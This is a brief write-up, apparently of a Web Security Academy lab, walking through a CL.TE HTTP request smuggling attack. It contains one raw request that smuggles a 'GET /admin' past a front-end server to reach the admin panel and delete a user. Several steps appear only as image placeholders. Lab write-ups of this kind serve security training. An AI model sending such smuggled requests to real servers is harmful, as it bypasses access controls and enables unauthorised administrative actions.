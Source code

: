 
1. Visit the `/admin` path;

![](/static/img/Pasted_image_20231201084223.png)

2. Send the following request

```http

POST / HTTP/1.1
Host: 0ad2002804fcacbd81a17577005e0020.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X

```

![](/static/img/Pasted_image_20231201084459.png)


3. Send the following request twice and  verify that following error:


![](/static/img/Pasted_image_20231201084637.png)

4. Send the following request twice and verify that you can now access the admin panel;

![](/static/img/Pasted_image_20231201084751.png)

5. Delete carlos user;

![](/static/img/Pasted_image_20231201084845.png)

![](/static/img/Pasted_image_20231201084858.png)

